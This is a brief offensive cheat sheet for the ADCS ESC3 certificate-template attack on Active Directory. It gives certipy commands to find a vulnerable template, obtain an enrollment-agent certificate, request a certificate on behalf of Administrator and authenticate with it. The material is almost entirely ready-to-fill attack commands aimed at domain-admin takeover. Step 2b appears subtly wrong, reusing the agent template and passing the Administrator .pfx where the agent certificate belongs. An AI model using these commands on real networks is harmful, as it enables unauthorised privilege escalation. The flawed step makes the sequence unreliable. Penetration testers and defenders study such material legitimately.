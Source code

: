 # ADCS ESC3

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2a. Get an “EnrollAgent” cert 
```
certipy req -u <username> -p '<password>' -target <CA_FQDN> -ca <CA_NAME> -dc-ip <DC_IP> -dc-host <DC_HOST> -template <ESC3_ENROLLAGENT_TEMPLATE>
```

## 2b. Use it to request a cert **on behalf of** Administrator
```
certipy req -u <username> -p '<password>' -dc-ip <DC_IP> -target <CA_FQDN> -dc-host <DC_HOST> -ca <CA_NAME> -pfx <ADMIN_USER>.pfx -template <ESC3_ENROLLAGENT_TEMPLATE> -on-behalf-of '<domain>\\<ADMIN_USER>'
```

## 3. Authenticate
```
certipy auth -pfx <ADMIN_USER>.pfx -dc-ip <DC_IP>
```
